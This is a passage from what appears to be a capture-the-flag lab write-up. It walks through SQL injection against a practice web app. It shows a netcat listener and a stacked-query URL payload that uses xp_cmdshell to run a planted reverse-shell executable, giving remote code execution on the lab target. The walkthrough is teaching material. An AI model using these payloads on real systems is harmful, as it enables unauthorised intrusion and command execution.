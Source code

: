 ```$query = "SELECT * FROM tbl_ornaments WHERE color = 'Red'";```

We can see the output of our request on our HTTP server:

![Alt text](/Advent%20of%20Cyber%202023/Resources/httprequest.png)

Now, all we have to do is set up a listener to catch the reverse shell we planted on the target machine and then have the system execute the payload. We will use ```netcat``` to listen on our machine over port 4444.

```nc -lnvp 4444```

We can run one final stacked query to execute the reverse shell we saved in the ```C:\Windows\Temp``` directory:

```http://10.10.255.250/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --```

Looking at our ```netcat``` listener, we can see that we caught the shell and have a connection

![Alt text](/Advent%20of%20Cyber%202023/Resources/netcat1.png)

Now, we are free to navigate through the directories and find information on this website. We can find a couple files on the Administrator's desktop that will help us find a couple of flags used to complete the room!

## Conclusion

Today, we used a variety of tools to perform a succesful SQL injection. We were able to craft a payload for a reverse shell, plant it on our target system, and catch the shell in order to gain remote code execution.